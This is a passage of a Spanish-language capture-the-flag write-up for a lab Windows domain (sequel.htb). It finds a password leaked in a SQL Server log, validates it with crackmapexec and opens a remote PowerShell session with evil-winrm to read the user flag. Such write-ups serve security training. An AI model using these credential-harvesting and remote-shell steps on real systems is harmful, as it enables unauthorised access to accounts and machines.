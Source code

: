 	-l C:\Program Files\Microsoft SQL Server\MSSQL15.SQLMOCK\MSSQL\DATA\mastlog.ldf
2022-11-18 13:43:05.97 Server      Command Line Startup Parameters:
	-s "SQLMOCK"
	-m "SqlSetup"
	-Q
	-q "SQL_Latin1_General_CP1_CI_AS"
	-T 4022
	-T 4010
	-T 3659
	-T 3610
	-T 8015
{% endhighlight %}

Husmeando por este archivo un poco, vemos mensajes de los spids (Creo Server Process IDs), pero terminando encontramos algo muy interesante; un intento fallido de autenticación por parte de Ryan.Cooper y, ¿Mosquito Nuclear 3?

{% highlight log %}
2022-11-18 13:43:07.44 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
{% endhighlight %}

No parece un nombre de usuario común, si nos mas bien una contraseña. Probándola con el usuario de arriba vemos que es la correcta y además también está en el grupo "Remote Management Users"...

{% highlight bash %}
❯ cme winrm 10.10.11.202 -u "ryan.cooper" -p "NuclearMosquito3"
SMB         10.10.11.202    5985   DC               [*] Windows 10.0 Build 17763 (name:DC) (domain:sequel.htb)
HTTP        10.10.11.202    5985   DC               [*] http://10.10.11.202:5985/wsman
WINRM       10.10.11.202    5985   DC               [+] sequel.htb\ryan.cooper:NuclearMosquito3 (Pwn3d!)
{% endhighlight %}

Al autenticarnos como este usuario y ver el escritorio ya podremos ver la primera flag

{% highlight bash %}
❯ evil-winrm -i 10.10.11.202 -u "ryan.cooper" -p "NuclearMosquito3"

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Desktop> ls


    Directory: C:\Users\Ryan.Cooper\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/18/2023  11:36 PM             34 user.txt


*Evil-WinRM* PS C:\Users\Ryan.Cooper\Desktop> cat user.txt
56019e02ce766dd1f5f302b461******
{% endhighlight %}
